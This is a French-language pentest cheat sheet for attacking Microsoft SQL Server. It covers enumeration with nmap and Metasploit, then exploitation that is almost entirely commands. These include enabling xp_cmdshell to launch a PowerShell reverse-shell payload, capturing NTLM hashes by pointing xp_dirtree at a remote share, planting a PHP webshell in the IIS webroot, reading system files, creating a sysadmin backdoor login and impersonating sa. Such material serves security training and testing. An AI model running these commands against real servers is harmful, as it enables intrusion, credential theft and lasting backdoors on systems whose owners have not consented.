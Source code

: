 ```yaml
---
public: true 
#Tags: vhost, hashes, lfi, password-spraying, potato
---
```


Port : 1433

## Enumeration

### Sans accès initial


#### nmap
```shell-session
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET_IP
```

#### metasploit
```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Avec accès 

Si on dispose d'un accès via un des outils présentés plus bas sur cette page, on pourra utiliser les commandes suivantes pour découvrir l'environnement de base de données accessible.

#### Requêtes utiles

##### Informations générales
```sql
-- Get version
select @@version;
-- Get user
select user_name();
select SYSTEM_USER;
-- List admin users
select name,type_desc,is_disabled FROM master.sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1 ORDER BY name;
-- Check if we are sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin'); -- retourne 0 si nous ne sommes pas membre
--
-- List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- List users that current user can impersonate 
--    if found : we need to impersonate each user available and enumerate again (see Exploitation below to see how to impersonate)
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';


-- List Linked servers
SELECT srvname, isremote FROM sysservers WHERE isremote = 0; -- 0 means linked server
EXEC sp_linkedservers
SELECT * FROM sys.servers;

```

Si un serveur lié (Linked Server) est découvert, on pourra tenter d'y accéder, vérifier si nous disposons de privilèges différents sur celui-ci. Voir la partie `Exploitation` plus bas sur cette page.

##### Exploration de l'instance de base de donnée
```sql
-- Get databases
select name from sys.databases;
SELECT name FROM master.dbo.sysdatabases;

-- Use database
USE master;

-- Get table names
SELECT table_name FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## Outils utiles

### Windows

#### sqlcmd

Utilitaire installer avec SQLServer
Il faudra ajouter le mot clé `GO` à chaque requête afin qu'elle soit exécutée.
```shell
# -y 30 -Y 30 augmentent la visibilité des résultat (attention aux performances)
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# ATTENTION : cet utilitaire nécessite la saisie du mot GO à la ligne terminant chaque requête ! (pas besoin de ';' dans cet outil)
```

### Linux

#### sqsh

Equivalent de sqlcmd sous Windows, pour Linux.
Comme sous windows, on ajoutera le mot clé `GO` à chaque requête afin qu'elle soit exécutée.

```bash
# Authentificatino Interne (SQL Server)
sqsh -S $TARGET_IP -U $AD_USER -P $AD_PASSWORD

# Authentification locale ou domaine
sqsh -S $TARGET_IP -U .\\$AD_USER -P $AD_PASSWORD 
```

#### Mssqlclient.py (impacket)

**Attention** : ce client n'accepte pas les requêtes sur plusieurs lignes.

```bash
# Internal Authentication (no fomzin prefix)
mssqlclient.py -p 1433  $USER:$PASS@$TARGET_IP 

# Local workstation authentication 
mssqlclient.py Administrator@10.129.201.248 -windows-auth

# Local workstation account authentication (no need to add WIN-02 to hosts)
mssqlclient.py -p 1433 -windows-auth WIN-02/mssqlsvc:princess1@$TARGET_IP      
```

## Commandes utiles

### Exploitation

#### Exécution de commandes (xp_cmdshell)

```sql
------------------------------------------------------------------------
-- Tentative d activation de xp_cmdshell  (si droits suffisants)
-- Allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE

--  Execution de commande (after enabling it)
xp_cmdshell 'whoami';
xp_cmdshell 'powershell -e <hoaxshell payload>';
```

#### Capture de Hash

```sql
-- XP_DIRTREE
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```

```sql
-- XP_SUBDIRS
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

#### Ecriture dans un fichier
```sql
------------------------------------------------------------------------
-- Creation de fichier via OLE Automation Procedures

-- Activation
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

-- Création de fichier
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

#### Lecture d'un fichier

```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

#### Création de compte
```sql
------------------------------------------------------------------------
-- Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

#### User Impersonate

Si l'énumération présentée plus haut nous liste des utilisateurs que l'on peut "impersonate" (usurper l'identité), on peut alors utiliser les commandes suivantes :

```sql
-- Exploitation
user master; -- db sur laquelle on est sur d'avoir les droits
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
REVERT; -- retourne aux droits précédents
```

### Linked Server
Si on a un serveur lié (voir énumération sur cette page), on peut exécuter des requêtes à distance sur cette machine :

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```


There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry.
